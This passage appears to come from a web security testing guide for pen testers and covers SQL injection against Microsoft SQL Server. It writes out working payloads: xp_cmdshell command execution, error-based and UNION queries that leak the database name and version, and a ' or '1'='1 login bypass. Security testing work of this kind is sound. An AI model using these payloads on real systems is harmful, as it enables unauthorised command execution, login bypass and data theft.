Below we show how to execute a shell command that writes the output of the command `dir c:\inetpub` in a browseable file, assuming that the web server and the DB server reside on the same host. The following syntax uses `xp_cmdshell`:

`exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\wwwroot\test.txt'--`

Alternatively, we can use `sp_makewebtask`:

`exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 'select * from master.dbo.sysobjects'--`

A successful execution will create a file that can be browsed by the pen tester. Keep in mind that `sp_makewebtask` is deprecated, and, even if it works in all SQL Server versions up to 2005, it might be removed in the future.

In addition, SQL Server built-in functions and environment variables are very handy. The following uses the function `db_name()` to trigger an error that will return the name of the database:

`/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20db_name())`

Notice the use of [convert](https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-2017):

`CONVERT ( data_type [ ( length ) ] , expression [ , style ] )`

`CONVERT` will try to convert the result of `db_name` (a string) into an integer variable, triggering an error, which, if displayed by the vulnerable application, will contain the name of the DB.

The following example uses the environment variable `@@version`, combined with a `union select`-style injection, in order to find the version of the SQL Server.

`/form.asp?prop=33%20union%20select%201,2006-01-06,2007-01-06,1,'stat','name1','name2',2006-01-06,1,@@version%20--`

And here's the same attack, but using again the conversion trick:

`/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20@@VERSION)`

Information gathering is useful for exploiting software vulnerabilities at the SQL Server, through the exploitation of an SQL-injection attack or direct access to the SQL listener.

In the following, we show several examples that exploit SQL injection vulnerabilities through different entry points.

### Example 1: Testing for SQL Injection in a GET Request

The most simple (and sometimes most rewarding) case would be that of a login page requesting an user name and password for user login. You can try entering the following string “' or '1'='1” (without double quotes):

`https://vulnerable.web.app/login.asp?Username='%20or%20'1'='1&Password='%20or%20'1'='1`

If the application is using Dynamic SQL queries, and the string gets appended to the user credentials validation query, this may result in a successful login to the application.

### Example 2: Testing for SQL Injection in a GET Request

In order to learn how many columns exist

`https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--`
